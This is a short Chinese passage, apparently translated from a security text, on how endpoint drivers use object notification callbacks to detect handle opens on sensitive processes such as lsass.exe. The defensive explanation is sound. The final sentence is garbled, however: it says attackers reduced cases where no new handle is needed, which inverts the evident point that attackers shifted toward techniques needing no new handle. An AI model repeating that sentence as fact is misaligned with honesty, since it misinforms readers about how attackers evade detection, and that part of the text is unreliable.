监控句柄操作，尤其是打开指向敏感进程的句柄，提供了一种强有力的方式来检测对手的战术。一个注册了对象通知回调的驱动程序，直接处于一个依赖于打开或复制诸如*lsass.exe*等进程句柄的对手的操作路径中。当这个回调例程实现得当时，规避这一传感器的机会是有限的，许多攻击者已经调整了他们的战术，以减少完全不需要打开新进程句柄的情况。
